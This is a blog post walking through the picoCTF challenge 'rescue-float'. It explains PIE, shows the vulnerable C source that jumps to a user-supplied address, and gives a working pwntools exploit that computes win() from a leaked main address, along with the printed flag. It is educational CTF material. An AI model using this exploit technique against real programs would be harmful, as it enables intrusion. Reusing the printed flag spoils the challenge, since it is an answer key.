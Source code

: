 ```yaml
---
title: 'PicoCTF Writeup #490'
date: 2025-08-19T14:20:15+07:00
draft: false
description: ''
---
```


## Binary Exploitation Challenge (PIE & Function Hijacking in picoCTF)

I’ve always been fascinated by low-level programming and security, but up until now I hadn’t really tried a **binary exploitation challenge**. Recently, I stumbled upon [this picoCTF challenge](https://play.picoctf.org/practice/challenge/490) called *“rescue-float”* — and let me tell you, it was a mix of confusion, discovery, and a little bit of victory at the end.

This post is a casual walkthrough of how I approached it as a beginner. If you’re into Linux, development, or cybersecurity, you’ll probably find this fun (or at least relatable if you remember your first binary exploitation adventure).



## The Challenge Setup

We’re given a binary and its source code. The task is to “try to get the flag” while keeping in mind that **PIE (Position Independent Executable)** is enabled.

When you run the binary, it prints the address of `main` and asks for an address to jump to:

```bash
$ ./vuln
Address of main: 0x55709267a33d
Enter the address to jump to, ex => 0x12345: 0x80
Your input: 80
Segfault Occurred, incorrect address.
```

On the remote server, the behavior is the same — except the addresses are totally different each time. That got me thinking: *what’s going on here?*



## First Observations

Digging into the binary with `strings`, I spotted something very interesting:

```
Segfault Occurred, incorrect address.
You won!
flag.txt
Cannot open file.
```

That `"You won!"` string was a big clue. Clearly, there’s a `win()` function hidden in there that we need to call instead of crashing.

So the real trick is figuring out the runtime address of `win()`.



## A Quick Detour: What’s PIE?

At first, I thought PIE was about pie (yes, 3.14 🍰). Turns out, PIE stands for **Position Independent Executable**.

In simple terms: every time you run the program, its code is loaded into a different random memory location. That means addresses of functions like `main()` or `win()` change constantly.

To exploit it, you need to:

1. Leak one known address (in this case, the program conveniently prints the address of `main()`).
2. Use that to calculate the **base address** of the binary in memory.
3. From there, compute the real address of `win()`.



## Peeking at the Source

Here’s the core of the challenge:

```c
int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0);

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

Yep, the program literally takes your input, interprets it as a function pointer, and jumps there. If you guess wrong? *Segfault.* Guess right? *Profit.*



## Exploit Development (with Pwntools)

I used **pwntools**, which makes life much easier for challenges like this. The plan:

1. Leak the runtime address of `main`.
2. Compute the PIE base address.
3. Add the offset of `win()` to get its actual address.
4. Send that address back as input.

Here’s the final script:

```python
from pwn import *

HOST = "rescued-float.picoctf.net"
PORT = 63489  # (check challenge for actual port)

elf = context.binary = ELF("./vuln")
p = remote(HOST, PORT)

# Leak main()
p.recvuntil(b"Address of main: ")
leaked_main = int(p.recvline().strip(), 16)
log.info(f"Leaked main: {hex(leaked_main)}")

# Compute PIE base
pie_base = leaked_main - elf.sym['main']
elf.address = pie_base
log.info(f"PIE base: {hex(pie_base)}")

# Compute win()
win_addr = elf.sym['win']
log.success(f"win() at: {hex(win_addr)}")

# Send it
p.recvuntil(b"Enter the address to jump to")
p.sendline(hex(win_addr).encode())

# Get the flag
print(p.recvall().decode(errors="ignore"))
```

And boom — the output:

```
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_cb52e722}
```



## Reflections

Honestly, this was overwhelming at first. I had to Google like crazy, read about PIE, function pointers, and pwntools usage. But that’s the fun part — these challenges force you to learn by doing.

Key takeaways for me:

* PIE randomizes addresses, but once you leak one function’s address, you can recover the rest.
* Binary exploitation isn’t always about buffer overflows. Sometimes, the vulnerability is right in front of you (like letting the user call any address they want).
* Pwntools is an absolute lifesaver.



## Final Thoughts

If you’re new to binary exploitation like me, this challenge is a fantastic first step. You’ll get a feel for memory addresses, PIE, and how attackers chain small leaks into bigger exploits.

Also, remember: it’s okay to feel lost at first. Every expert you admire in Linux, development, or security once stared at a disassembly dump and thought, *“What on earth is this?”*

The best advice? Keep poking, keep experimenting, and don’t be afraid to Google shamelessly.
